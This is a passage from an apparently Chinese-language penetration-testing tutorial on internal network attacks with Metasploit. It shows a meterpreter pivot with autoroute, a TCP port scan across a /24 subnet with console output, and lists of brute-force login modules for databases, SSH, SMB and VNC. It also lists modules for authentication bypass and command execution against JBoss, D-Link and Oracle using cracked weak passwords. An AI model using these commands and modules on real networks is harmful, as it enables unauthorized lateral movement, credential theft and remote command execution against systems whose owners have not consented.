 
如果有了域控:) nidongde

### 内网扫描

    
    
    meterpreter > run autoroute -s 192.168.3.98
    meterpreter > background
    [*] Backgrounding session 2...
    msf exploit(handler) > use auxiliary/scanner/portscan/tcp
    msf auxiliary(tcp) > set PORTS 80,8080,21,22,3389,445,1433,3306
    PORTS => 80,8080,21,22,3389,445,1433,3306
    msf auxiliary(tcp) > set RHOSTS 192.168.3.1/24
    RHOSTS => 192.168.3.1/24
    msf auxiliary(tcp) > set THERADS 10
    THERADS => 10
    msf auxiliary(tcp) > exploit
    

![](http://static.wooyun.org//drops/20151102/2015110213431293867TCP.png)

我还是推荐开代理用Nmap扫描>.<

一些常用的破解模块

    
    
    auxiliary/scanner/mssql/mssql_login
    auxiliary/scanner/ftp/ftp_login
    auxiliary/scanner/ssh/ssh_login
    auxiliary/scanner/telnet/telnet_login
    auxiliary/scanner/smb/smb_login
    auxiliary/scanner/mssql/mssql_login
    auxiliary/scanner/mysql/mysql_login
    auxiliary/scanner/oracle/oracle_login
    auxiliary/scanner/postgres/postgres_login
    auxiliary/scanner/vnc/vnc_login
    auxiliary/scanner/pcanywhere/pcanywhere_login
    auxiliary/scanner/snmp/snmp_login
    auxiliary/scanner/ftp/anonymous
    

![](http://static.wooyun.org//drops/20151102/2015110213430524027mssql.png)

一些好用的模块

    
    
    auxiliary/admin/realvnc_41_bypass  (Bypass VNCV4网上也有利用工具)
    auxiliary/admin/cisco/cisco_secure_acs_bypass （cisco Bypass 版本5.1或者未打补丁5.2版 洞略老）
    auxiliary/admin/http/jboss_deploymentfilerepository （内网遇到Jboss最爱:)）
    auxiliary/admin/http/dlink_dir_300_600_exec_noauth (Dlink 命令执行:)
    auxiliary/admin/mssql/mssql_exec （用爆破得到的sa弱口令进行执行命令 没回显:(）
    auxiliary/scanner/http/jboss_vulnscan (Jboss 内网渗透的好朋友)
    auxiliary/admin/mysql/mysql_sql (用爆破得到的弱口令执行sql语句:)
    auxiliary/admin/oracle/post_exploitation/win32exec （爆破得到Oracle弱口令来Win32命令执行）
    auxiliary/admin/postgres/postgres_sql (爆破得到的postgres用户来执行sql语句)
    